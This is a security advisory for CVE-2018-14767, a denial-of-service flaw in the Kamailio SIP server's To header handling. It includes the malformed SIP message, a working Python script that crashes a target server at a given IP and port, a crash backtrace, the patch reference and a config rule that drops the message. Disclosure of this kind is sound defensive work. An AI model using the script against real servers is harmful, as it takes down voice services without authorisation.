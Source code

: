 ## Security vulnerability in Kamailio core related to To header processing, denial of service possible.

- Author: Henning Westerholt <hw at skalatan.de>
- Fixed versions: Kamailio v5.1.4 and v5.0.7
- References: CVE-2018-14767
- Kamailio Security Advisory: [link](https://www.kamailio.org/w/2018/07/kamailio-security-announcement-for-kamailio-core/)
- Tested vulnerable versions: 5.1, 4.0, git master
- Timeline:
    - Report date: 2018-05-07
    - Kamailio patch: 2018-05-07
    - Kamailio release with patch: 2018-06-05
    - Security advisory: 2018-07-30

### Description

There exists a security vulnerability in the Kamailio SIP server related to `To` header processing. A specially crafted SIP message with double `To` header and an empty To `tag` causes a segmentation fault and crashes Kamailio. The reason is missing input validation in the `build_res_buf_from_sip_req` core function.

### Impact

Abuse of this vulnerability leads to denial of service in Kamailio. Further research may show that exploitation leads to remote code execution. This vulnerability is rather old and will probably also apply to older versions of Kamailio and maybe even OpenSER.

### How to reproduce the issue

The following SIP message with double `To` headers containing the empty `tag` can be used to reproduce the vulnerability:


```
REGISTER sip:127.0.0.1:0 SIP/2.0
Via: SIP/2.0/UDP 172.17.13.240:5061;branch=9hG4bKydcnjlpe
To: <@127.0.0.1>;tag=
From: 
To: <sip:>
Content-Length: 1

```

You can use this python script to reproduce the crash:

```
#!/usr/bin/env python
import socket
import sys

for _ in range(2):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.connect((sys.argv[1], int(sys.argv[2])))

    msg = "REGISTER sip:127.0.0.1:0 SIP/2.0\n" \
        "Via: SIP/2.0/UDP 172.17.13.240:5061;branch=9hG4bKydcnjlpe\n" \
        "To: <@127.0.0.1>;tag=\n" \
        "From: \n" \
        "To: <sip:>\n" \
        "Content-Length: 1\n" \
        "\n" \
        "\r\n"
    sock.sendall(msg)
```

Run using:

```
python crash.py <ip> <port>
```

The expected result is a crash in Kamailio.

Notes: 

- authentication is not required
- crash happens in the first module that tries to construct a SIP reply caused by the bogus message
- SIP extension does not need to exist
- Message can be sent over TCP or UDP

### GDB backtrace result

An example for an backtrace caused by this crash in GDB:

```
Program terminated with signal SIGSEGV, Segmentation fault.
#0  __memcpy_sse2_unaligned () at ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S:152
152     ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S: No such file or directory.
(gdb) bt
#0  __memcpy_sse2_unaligned () at ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S:152
#1  0x000000000057ac26 in build_res_buf_from_sip_req (code=400, text=0x7ffc94ef0780, new_tag=0x7fe8e82ee250 <sl_tag>, msg=0x7fe8e923ca00, returned_len=0x7ffc94ef07e8, bmark=0x7ffc94ef0790) at core/msg_translator.c:2502
#2  0x00007fe8e80de2ee in sl_reply_helper (msg=0x7fe8e923ca00, code=400, reason=0x7fe8e6a7e85b "Content-Length mis-match", tag=0x0) at sl_funcs.c:168
#3  0x00007fe8e80df4c3 in sl_send_reply (msg=0x7fe8e923ca00, code=400, reason=0x7fe8e6a7e85b "Content-Length mis-match") at sl_funcs.c:304
#4  0x00007fe8e6a6d34f in sanity_reply (msg=0x7fe8e923ca00, code=400, reason=0x7fe8e6a7e85b "Content-Length mis-match") at sanity.c:55
#5  0x00007fe8e6a727b5 in check_cl (_msg=0x7fe8e923ca00) at sanity.c:557
#6  0x00007fe8e6a7c97a in sanity_check (_msg=0x7fe8e923ca00, msg_checks=1511, uri_checks=7) at sanity_mod.c:194
#7  0x00007fe8e6a7cb0a in w_sanity_check (_msg=0x7fe8e923ca00, _number=0x5e7 <error: Cannot access memory at address 0x5e7>, _arg=0x7 <error: Cannot access memory at address 0x7>) at sanity_mod.c:254
#8  0x0000000000439780 in do_action (h=0x7ffc94ef1160, a=0x7fe8e9210960, msg=0x7fe8e923ca00) at core/action.c:1079
#9  0x0000000000445e1d in run_actions (h=0x7ffc94ef1160, a=0x7fe8e9210960, msg=0x7fe8e923ca00) at core/action.c:1565
#10 0x00000000004464fa in run_actions_safe (h=0x7ffc94ef2480, a=0x7fe8e9210960, msg=0x7fe8e923ca00) at core/action.c:1633
#11 0x0000000000646d88 in rval_get_int (h=0x7ffc94ef2480, msg=0x7fe8e923ca00, i=0x7ffc94ef15e8, rv=0x7fe8e9211598, cache=0x0) at core/rvalue.c:912
#12 0x000000000064b31f in rval_expr_eval_int (h=0x7ffc94ef2480, msg=0x7fe8e923ca00, res=0x7ffc94ef15e8, rve=0x7fe8e9211590) at core/rvalue.c:1910
#13 0x000000000064b75d in rval_expr_eval_int (h=0x7ffc94ef2480, msg=0x7fe8e923ca00, res=0x7ffc94ef1a90, rve=0x7fe8e9210d78) at core/rvalue.c:1918
#14 0x0000000000439145 in do_action (h=0x7ffc94ef2480, a=0x7fe8e92121a0, msg=0x7fe8e923ca00) at core/action.c:1043
#15 0x0000000000445e1d in run_actions (h=0x7ffc94ef2480, a=0x7fe8e920cda8, msg=0x7fe8e923ca00) at core/action.c:1565
#16 0x00000000004360c5 in do_action (h=0x7ffc94ef2480, a=0x7fe8e91fb420, msg=0x7fe8e923ca00) at core/action.c:691
#17 0x0000000000445e1d in run_actions (h=0x7ffc94ef2480, a=0x7fe8e91fb420, msg=0x7fe8e923ca00) at core/action.c:1565
#18 0x00000000004465c2 in run_top_route (a=0x7fe8e91fb420, msg=0x7fe8e923ca00, c=0x0) at core/action.c:1654
#19 0x0000000000587d61 in receive_msg (buf=0xa525e0 <buf> "REGISTER sip:127.0.0.1:0 SIP/2.0\nVia: SIP/2.0/UDP 172\035\061\067.13.240:5061;rport;branch=\223\071hG4bKydcnjlpe\nMax-Forwards: 69\nTo: <@127.0.0.1>;tag=;branch=z9hG4bKya-tag\nFrom: <sip:user@127.0.0.Forwards: 70\nTo: <"..., len=417, rcv_info=0x7ffc94ef2aa0) at core/receive.c:331
#20 0x000000000046ca74 in udp_rcv_loop () at core/udp_server.c:554
#21 0x00000000004253d1 in main_loop () at main.c:1432
#22 0x000000000042d631 in main (argc=16, argv=0x7ffc94ef2fc8) at main.c:2650
```

This security issue was discovered through extensive SIP message fuzzing with [afl](http://lcamtuf.coredump.cx/afl/?target=_blank) and an internal toolset.

### Solutions and recommendations

Apply the [patch](https://github.com/kamailio/kamailio/commit/281a6c6b6eaaf30058b603325e8ded20b99e1456?target=_blank) from github or make use of a release that includes that patch (e.g. 5.1.4 or 5.0.7). For older Kamailio version and in case you need more time for an update you can add the following logic on top of to your `request_route` block in your kamailio configuration file. This will drop this malicious  message and prevent its processing.

```
if($(hdr(To)[1]) != $null) {
    xlog("second To header not null - dropping message");
    drop;
}
```

### About Henning Westerholt

[Henning Westerholt](https://skalatan.de/about) is a core developer of Kamailio since 2007. He provides consulting services for Kamailio and VoIP services in the performance, reliability and security areas.

### Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
